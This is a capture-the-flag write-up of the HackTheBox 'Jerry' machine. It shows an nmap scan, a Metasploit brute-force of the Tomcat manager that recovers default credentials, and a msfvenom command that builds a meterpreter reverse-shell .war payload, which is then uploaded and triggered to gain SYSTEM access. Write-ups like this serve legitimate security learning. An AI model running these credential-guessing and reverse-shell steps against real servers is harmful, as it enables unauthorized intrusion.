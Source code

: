 ```yaml
---
title: HTB - Jerry writeup
date: 2023-04-02
categories: [ctf, htb, writeup]
tags: [ctf, htb, writeup]
author: cha0s
---
```

# Machine info
---
## Name: Jerry
## OS: Windows
## Dificulty: Easy
[link](https://app.hackthebox.com/machines/144)
---

# Initial recon
---
As always i've started with nmap, and for my surprise, only a single port open

```bash
cha0s@vm:~/ctf/htb/jerry$ nmap -A -p- -T4 --min-rate=500 -Pn 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 11:19 -03
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.44 seconds
```

An apache tomcat instance, just like a "default installation"

![[Pasted image 20240402125101.png]]
_not the actual box screenshot cause i forgot to take it💀_
# Tomcat enumeration
---

Without further thinking, i fired metasploit and runned the `auxiliary/scanner/http/tomcat_mgr_login` module

![[/assets/img/jerry/Pasted image 20240402113416.png]]

After a few minutes of bruteforce we found:
	`tomcat:s3cret`
Now we have a login for tomcat's manager gui. 
# Exploitation
--- 
Now, we need to get a shell. Since we already inside tomcat webapp as an admin, we can abuse the upload feature to upload an malicious .war file that will allow us to get a reverse shell.

First we create a .war payload using msfvenom. Apart from looking at the machine info and knowing its a windows, we could simply go at the "show status", page and figure out it's a windows server 2012 machine.

To create the payload we use:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<your Tun0> lport=4444 -f war -o xp.war`
![[Pasted image 20240402114516.png]]

Note that i've unziped the .war, that's because we won't get a shell by simply uploading, we also need to run the malicious jsp

Then, we can upload it on tomcat manager gui

![[/assets/img/jerry/Pasted image 20240402114540.png]]

![[/assets/img/jerry/Pasted image 20240402114551.png]]
_file uploaded successfully!_

Then visit the page with the file we early extracted

![[/assets/img/jerry/Pasted image 20240402114612.png]]

And, we get a shell!!!
 
![[/assets/img/jerry/Pasted image 20240402114657.png]]
![[/assets/img/jerry/Pasted image 20240402114720.png]]
# Post exploitation
---

After that we start to gather some information about the machine and for my surprise...

![[/assets/img/jerry/Pasted image 20240402114814.png]]

We are already the highest windows privileged account.

So i head to the administrator desktop (default location for flags)

![[/assets/img/jerry/Pasted image 20240402114857.png]]

And enjoy my 2 flags for the price of one 😋

---

Hope you enjoyed the writeup.
Never stop hacking! 👨‍💻


#hacking #htb #easy #ctf